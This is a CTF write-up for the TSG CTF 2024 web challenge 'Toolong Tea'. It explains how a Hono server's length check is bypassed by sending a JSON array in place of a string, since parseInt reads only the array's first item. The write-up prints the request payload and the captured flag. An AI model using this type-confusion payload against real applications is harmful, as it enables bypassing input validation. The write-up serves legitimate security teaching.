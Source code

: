 ```yaml
---
permalink: /ctf/TSG-CTF-2024/Web/Toolong-Tea/
title: TSG CTF 2024 Web Challenge Writeup - Toolong Tea
description: My TSG CTF 2024 writeup for web challenge "Toolong Tea".
ogImageUrl: https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/toolong-tea-ogimage.png
---
```


# Toolong Tea

<details class="toc"><summary markdown="span"><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

</details>

## Overview

- Solved by: @siunam
- 143 solves / 100 points
- Author: @fabon
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Recently it's getting colder in Tokyo which TSG is based in. Would you like to have a cup of hot oolong tea? It will warm up your body.

[http://34.84.32.212:4932](http://34.84.32.212:4932)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241216111852.png)

## Enumeration

Index page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241214152321.png)

In here, we can submit a number. Let's try it!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241214152539.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241214152703.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241214152740.png)

When we clicked the "submit" button, it'll send a POST request to `/` with a JSON object:

```json
{
    "num":"123"
}
```

After that, the server respond "Please send 65536".

Let's try to submit number 65536!

```http
POST / HTTP/1.1
Host: 34.84.32.212:4932
Content-Type: application/json
Content-Length: 15

{"num":"65536"}
```

Response:

```http
HTTP/1.1 200 OK
[...]

Too long!
```

Hmm... "Too long!"?

To have a better understanding in this web application, we'll need to read its source code.

**In this challenge, we can download a [file](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/Web/Toolong-Tea/toolong_tea.tar.gz):**
```shell
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/Toolong-Tea)-[2024.12.14|15:30:58(HKT)]
└> file toolong_tea.tar.gz  
toolong_tea.tar.gz: gzip compressed data, from Unix, original size modulo 2^32 20480
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/Toolong-Tea)-[2024.12.14|15:30:59(HKT)]
└> tar xvzf toolong_tea.tar.gz 
toolong_tea/
toolong_tea/Dockerfile
toolong_tea/compose.yaml
toolong_tea/package-lock.json
toolong_tea/package.json
toolong_tea/public/
toolong_tea/public/index.html
toolong_tea/public/main.js
toolong_tea/server.js
```

After reading the source code a little bit, we can have the following findings:
1. This web application is written in JavaScript with framework [Hono](https://www.npmjs.com/package/hono)
2. The main logic of this web application is in `toolong_tea/server.js`

In `toolong_tea/server.js`, we can see that there's a POST route `/`:

```javascript
import { Hono } from "hono";

const flag = process.env.FLAG ?? "TSGCTF{DUMMY}";

const app = new Hono();
[...]
app.post("/", async (c) => {
    try {
        const { num } = await c.req.json();
        if (num.length === 3 && [...num].every((d) => /\d/.test(d))) {
            const i = parseInt(num, 10);
            if (i === 65536) {
                return c.text(`Congratulations! ${flag}`);
            }
            return c.text("Please send 65536");
        }
        if (num.length > 3) {
            return c.text("Too long!");
        }
        return c.text("Please send 3-digit integer");
    } catch {
        return c.text("Invalid JSON", 500);
    }
});
```

In this route, if our JSON object's attribute `num` length is 3 and its value is all digit, it'll use `parseInt` to parse our string to integer (base 10). **If the parsed integer is `65536`**, it'll return the flag in the JSON response.

With that said, we need to send number `65536` to get the flag.

Wait, how? Isn't this if statement will check our attribute `num`'s length is equal to `3`?

```javascript
const { num } = await c.req.json();
if (num.length === 3 && [...]) {
    [...]
}
```

How can we bypass this?

Well... Since **it doesn't check the attribute `num` to be type string**, we can send the `num` attribute with value of **3 array items** like this:

```json
{
    "num":[
        "123",
        "456",
        "789"
    ]
}
```

By doing so, the `num`'s length is `3`, which bypasses the length check.

Now, here's the question: **Can `parseInt` parse an array?**

Let's try to test that!

```shell
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/Toolong-Tea)-[2024.12.14|15:31:38(HKT)]
└> node                      
[...]
> parseInt(["123", "456", "789"], 10);
123
```

Oh! It can! And it parsed the first item in the array!

## Exploitation

Armed with the above information, we can send the following POST request to get the flag!

```http
POST / HTTP/1.1
Host: 34.84.32.212:4932
Content-Type: application/json
Content-Length: 73

{
    "num":[
        "65536",
        "456",
        "789"
    ]
}
```

Response:

```http
HTTP/1.1 200 OK
[...]

Congratulations! TSGCTF{A_holy_night_with_no_dawn_my_dear...}
```

- **Flag: `TSGCTF{A_holy_night_with_no_dawn_my_dear...}`**

## Conclusion

What we've learned:

1. Bypass validation via missing type checking